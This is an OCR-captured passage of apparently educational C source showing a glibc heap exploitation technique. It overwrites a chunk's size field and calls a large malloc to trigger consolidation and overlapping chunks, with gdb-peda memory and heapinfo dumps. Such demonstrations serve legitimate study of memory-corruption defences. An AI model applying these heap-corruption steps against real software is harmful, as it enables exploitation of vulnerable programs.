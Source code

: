 0104| 0x602068 --> 0x0 

...... 

0160| 0x6020a0 --> 0x0 

0168| 0x6020a8 --> 0x21 ('!')

0176| 0x6020b0 --> 0x0 

0184| 0x6020b8 --> 0x0 

*/

chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1

malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate

/*Chunk1 overlap with chunk2 now

gdb-peda$ telescope 0x602000 100

0000| 0x602000 --> 0x0 

0008| 0x602008 --> 0xa1 

0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)

0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)

0032| 0x602020 --> 0x0 

.....

0080| 0x602050 --> 0x0 

0088| 0x602058 --> 0x51 ('Q')

0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)

0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)

0112| 0x602070 --> 0x0 

0120| 0x602078 --> 0x0 

....

0152| 0x602098 --> 0x0 

0160| 0x6020a0 --> 0xa0 

0168| 0x6020a8 --> 0x20 (' ')



gdb-peda $ heapinfo
(0x20)     fastbin[0]: 0x0

(0x30)     fastbin[1]: 0x0
